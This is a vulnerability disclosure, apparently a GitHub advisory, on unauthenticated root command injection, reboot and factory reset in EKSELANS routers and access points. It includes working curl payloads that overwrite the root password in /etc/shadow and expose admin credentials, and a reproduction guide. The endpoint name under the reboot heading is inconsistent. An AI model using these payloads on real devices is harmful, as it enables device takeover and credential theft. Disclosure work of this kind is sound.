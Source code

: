 
# 🔥 Unauthenticated RCE and Full Device Compromise on EKSELANS by ITS Devices

## Summary

Multiple network devices manufactured by **EKSELANS BY ITS** (https://www.ek.plus/) are affected by a set of critical vulnerabilities that allow **unauthenticated attackers** to:

- Gain **root remote code execution (RCE)**,
- **Extract sensitive information** including admin credentials,
- **Change system configuration**, including the root password,
- **Trigger device reboot** and **factory reset** via unauthenticated endpoints,
- Ultimately perform **full device takeover** and **persistent denial-of-service (DoS)**.

These issues stem from improper input validation and unsafe use of shell commands in PHP CGI scripts exposed via the web interface.

---

## Affected Devices

The following EKSELANS BY ITS devices were tested and found vulnerable:

- TR750  
- TR1200  
- TR1200OLP  
- TR1300  
- TR2200  
- TR3000W6  
- TR3000W6OLP  
- AP1200 W2  
- AP 300  
- AP300 LP  
- AP750 NG  

**⚠️ Note:** Other devices in the EKSELANS product line may also be vulnerable, but have not yet been tested.

---

## Vulnerability 1 – Remote Code Execution (RCE) as Root via `setNtp.php`

### Description

The script at:

```
http://<device-ip>/cgi-bin/setNtp.php
```

is intended to update the system's timezone setting via the `Zone` POST parameter. However, it directly injects this input into a shell command using `shell_exec()` **without sanitization**, allowing arbitrary command execution as **root**.

### Risk Level: **Critical**

This leads to:
- Full root-level remote code execution (RCE)
- Unauthorized modification of system files (e.g. `/etc/shadow`)
- Persistence (e.g. SSH backdoor)
- Exfiltration of configuration and credentials
- Bricking of the device
- Further internal network exploitation

---

### Exploit Proofs-of-Concept (PoC)

#### 🔓 PoC 1 – Change root password to `toor` for future SSH access:

```bash
curl -X POST http://<target-ip>/cgi-bin/setNtp.php \
  -d "Zone=CET\"';sed -i 's#^root:[^:]*:#root:\$1\$Awiloz1g\$Je46CvkpbqUExnTav0W580:#' /etc/shadow;echo Z #"
```

This injects a new password hash into `/etc/shadow` for the `root` user.

> 🛠️ *The hash corresponds to the password: `toor`*

---

#### 📁 PoC 2 – Exfiltrate web admin credentials:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; cp /etc/config/systemconf/config/account.conf /www/cgi-bin/pwned3.php; echo '''"'
```

You can now download the credentials at:

```
http://<device-ip>/cgi-bin/pwned3.php
```

---

### Vulnerable Code (Excerpt)

```php
$cmd = "sed -i '3ioption timezone " . $zone . "'" . " /etc/config/system";
shell_exec($cmd);
```

The `Zone` parameter is directly concatenated into a shell command, enabling arbitrary code execution.

---

## Vulnerability 2 – Unauthenticated Reboot via `devmanage_reboot.php`

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

**immediately reboots the device**, without requiring login or confirmation.

This could allow attackers to:
- Cause **persistent DoS**
- Disrupt connectivity or network availability
- Exploit race conditions with other vulnerabilities

---

## Vulnerability 3 – Unauthenticated Factory Reset

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

in some firmware versions or configurations **triggers a full factory reset**, erasing custom settings, access credentials, and other user data.

This may result in:
- **Erasure of forensic evidence**
- **Loss of device access for legitimate users**
- Further **chaining of exploits** to set malicious defaults or gain persistence

---

## Step-by-Step Reproduction Guide

1. Identify a vulnerable EKSELANS device on the network.
2. Use `curl` or any HTTP client to POST to `/cgi-bin/setNtp.php` with a malicious `Zone` value.
3. Optionally extract files or drop a webshell using the same method.
4. For reboot/factory reset, issue a GET request to `/cgi-bin/devmanage_resetDefault.php`.

---

## Recommendations

- Immediately **remove public access** to affected devices.
- Apply **input sanitization** to all CGI scripts.
- Avoid using `shell_exec()` with user input.
- Restrict access to configuration endpoints via authentication.
- Apply firmware updates (if available) or contact vendor for mitigation guidance.

---

## Disclosure Timeline

- 15/04/2025  – Vendor notification in progress.

- 28/04/2025 – Public disclosure.

---

## Credits

Discovered and responsibly disclosed by **miitro**

---

## Disclaimer

This information is provided for educational and defensive security purposes. The author is not responsible for any misuse of this information.
